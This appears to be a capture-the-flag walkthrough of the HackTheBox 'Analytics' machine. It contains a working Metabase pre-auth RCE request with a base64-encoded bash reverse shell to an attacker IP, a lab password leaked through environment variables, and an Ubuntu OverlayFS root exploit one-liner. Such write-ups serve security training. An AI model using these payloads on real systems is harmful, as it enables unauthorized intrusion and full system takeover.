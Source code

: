 # Analytics

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 10.129.49.201            
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 22:09 +08
Nmap scan report for 10.129.49.201
Host is up (0.0056s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Did a detailed scan as well:

```
$ nmap -p 80 -sC -sV --min-rate 4000 10.129.49.201  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 22:10 +08
Nmap scan report for 10.129.49.201
Host is up (0.0093s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `analytical.htb` to the `/etc/hosts` file before visiting the web application.

### Web Enum -> CVE-2023-38646 RCE

The website was for a company that does data analytics.

![](../../.gitbook/assets/htb-analytics-image.png)

Below, there are a few names we can note:

![](../../.gitbook/assets/htb-analytics-image-1.png)

There was also a login page, which directed me to `data.analytical.htb`.

![](../../.gitbook/assets/htb-analytics-image-2.png)

`gobuster` and `wfuzz` didn't reveal much, so I took a look at the requests being sent in Burpsuite. Here's the POST request sent on the login.

```http
POST /api/session HTTP/1.1
Host: data.analytical.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 70
Origin: http://data.analytical.htb
Connection: close
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Cookie: metabase.DEVICE=315d4277-faad-4015-a5cb-fc02ad4729e4

{"username":"admin@analytical.htb","password":"admin","remember":true}
```

We can see that `metabase` is the backend, and that it has an `/api` endpoint. Metabase has a few pre-auth RCE exploits available.

{% embed url="https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/" %}

From the blog above, to determine if an instance is vulnerable, the `setup-token` variable needs to be misconfigured and not hidden. Viewing `/api/sessions/properties` for this machine verifies that the token is leaked.

![](../../.gitbook/assets/htb-analytics-image-3.png)

Following the blog above, I just replaced the `token` and reverse shell command used in their PoC request. The `base64` encoded command is just a simple `bash` one-liner.

```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 820

{

    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {

        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zNi80NDQ0IDA+JjEK}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

After sending this, my listener port caught a reverse shell into a Docker instance.

![](../../.gitbook/assets/htb-analytics-image-4.png)

### Env Creds -> User Shell

Within the Docker container, I checked the environment variables and found the user's password.

```
$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=3e3bd0cfec4e
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
<TRUNCATED>
```

Afterwards, I could `ssh` in as the user `metalytics`.

![](../../.gitbook/assets/htb-analytics-image-5.png)

## Privilege Escalation

### CVE-2023-2640 -> Root

I did some basic enumeration, like getting the OS used and what not:

```
$ uname -a 
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 22.04.3 LTS
Release:        22.04
Codename:       jammy
```

When googling for 'Ubuntu 22.04 jammy exploit', I found this:

{% embed url="https://www.csa.gov.sg/alerts-advisories/alerts/2023/al-2023-103" %}

The machine fits all the criterias to be vulnerable to this, so I gave the exploit a shot. I found the PoC on Reddit, and it worked.

{% embed url="https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/" %}

Run these 2 commands back to back to get a `root` shell:

```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*"
u/python3 -c 'import os;os.setuid(0);os.system("bash")
```

![](../../.gitbook/assets/htb-analytics-image-6.png)

Rooted!